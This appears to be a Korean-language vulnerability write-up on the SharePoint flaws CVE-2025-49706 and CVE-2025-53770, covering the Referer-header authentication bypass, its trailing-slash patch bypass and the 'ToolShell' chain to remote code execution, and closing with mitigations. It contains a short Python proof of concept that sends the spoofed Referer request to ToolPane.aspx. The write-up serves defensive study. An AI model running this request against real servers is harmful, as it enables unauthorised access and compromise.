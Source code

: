 ```yaml
---
title: ["[CVE-2025-49706, 53770] - Microsoft SharePoint Auth Bypass and RCE"]
date: 2025-08-01 09:00:00 +0900
last_modified_at: 2025-07-07 09:00:00 +0900
categories: [writeup, CVE]
tags: [CVE, Microsoft SharepPoint, RCE, Authentication Bypass]
---
```


# SharePoint 인증 우회 및 RCE 취약점 분석

## 개요
Microsoft SharePoint Server 2019에서 발견된 CVE-2025-49706, CVE-2025-53770은 인증 우회 및 원격 코드 실행(RCE)로 이어질 수 있는 중대한 보안 취약점이다. 

## CVE-2025-49706: Auth Bypass via Referer
이 취약점은 SharePoint의 `PostAuthenticateRequestHandler` 메서드가 `Referer` 헤더에 포함된 `/layouts/SignOut.aspx` 값을 신뢰하는 설계 결함에서 비롯된다. 익명 사용자가 이 값을 설정해 인증이 필요한 페이지에 접근할 수 있게 된다.

### 인증 우회 동작 로직
```csharp
if (flag1) {
  Uri uri = context.Request.UrlReferrer;
  ...
  if (uri != null && uri.AbsolutePath == "/_layouts/SignOut.aspx") {
    flag1 = false;
    flag2 = true;
  }
}
```
- `flag1`가 true이고 Refere가 SignOut이면 인증 체크가 우회된다.
- 이 결과, 로그인하지 않은 상태에서도 WebPart 설정 페이지인 `/ToolPane.aspx`에 접근 가능해진다.

### 영향을 받는 환경
- SharePoint Server Subscription Edition - earlier than KB5002768
- SharePoint Server 2019 - earlier than 16.0.10417.20027 / KB5002754
- SharePoint Server 2016
  
## CVE-2025-53770 : easily bypassable patch
Microsoft는 `DisableSignOutRefererHeaderBypassLimit` 설정 플래그와 `ToolPane.aspx` 엔드포인트 필터링을 통해 CVE-2025-49706을 차단하려 했지만, 문자열 비교에만 의존한 패치 방식은 완전히 우회 가능했다.
- `/ToolPane.aspx/`와 같이 마지막에 슬래시를 붙이면 우회된다.
- 결국 인증 우회 후 Deserialization 취약점을 통해 RCE로 이어질 수 있다.

## PoC
```python
import requests
from urllib.parse import urljoin
import argparse

parser = argparse.ArgumentParser()
parser.add_argument("--url", required=True, help="Target URL")
args = parser.parse_args()

session = requests.Session()
headers = {'Referer': '/_layouts/SignOut.aspx'}
data = {'MSOTlPn_Uri': '', 'MSOTlPn_DWP': ''}

endpoint = urljoin(args.url, '/_layouts/16/ToolPane.aspx?DisplayMode=Edit')
response = session.post(endpoint, headers=headers, data=data)

if response.status_code == 200:
    print("[+] Authentication Bypass Successed")
    print(response.text[:500])  
else:
    print("[-] Failed: ", response.status_code)
```

해당 PoC는 로드인 없이 `ToolPane.aspx`에 접근해 WebPart 처리를 유도하고, 요청 파라미터를 Deserialization하는 과정에서 RCE가 가능하다.

## 실제 위험성 및 공격 시나리오

이 취약점은 단독으로 사용될 수도 있지만, `ToolPane.aspx` 페이지가 요청 데이터를 Deserialization하는 과정에서 발생하는 다른 취약점(CVE-2025-53770)과 결합될 경우, RCE까지 이어질 수 있다. 실제로 두 취약점은 결합되어 "ToolShell"이라는 익스플로잇 체인으로 사용되었다.

1. 공격자는 Referer 헤더를 `/layouts/SignOut.aspx`로 설정하여 인증 우회(CVE-2025-49706)
2. 이후 `ToolPane.aspx`에 접근해 악의적인 데이터를 전송하여 원격 코드 실행(CVE-2025-53770)

이러한 공격이 성공하면 공격자는 웹쉘 설치, 내부 네트워크 침투 등 심각한 보안 위협을 가할 수 있다.

## 대응 방안
* Microsoft에서 발표한 보안 업데이트(KB5002754, KB5002768)를 적용
* `DisableSignOutRefererHeaderBypassLimit` 플래그를 활성화하여 Referer 헤더를 통한 인증 우회 방지 로직을 강화
* AMSI 활성화 및 Defender 등의 백신 솔루션을 SharePoint 서버에 적용
* 인증 토큰 탈취 방지를 위해 `MachineKey` 값을 변경하고 IIS를 재시작


## Reference
- [CVE-2025-49706 | Microsoft SharePoint Server Spoofing Vulnerability](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2025-49706)
- [SharePoint Vulnerabilities (CVE-2025-53770 & CVE-2025-53771): Everything You Need to Know](https://www.wiz.io/blog/sharepoint-vulnerabilities-cve-2025-53770-cve-2025-53771-everything-you-need-to-k)
- [ToolShell: a story of five vulnerabilities in Microsoft SharePoint](https://securelist.com/toolshell-explained/117045/)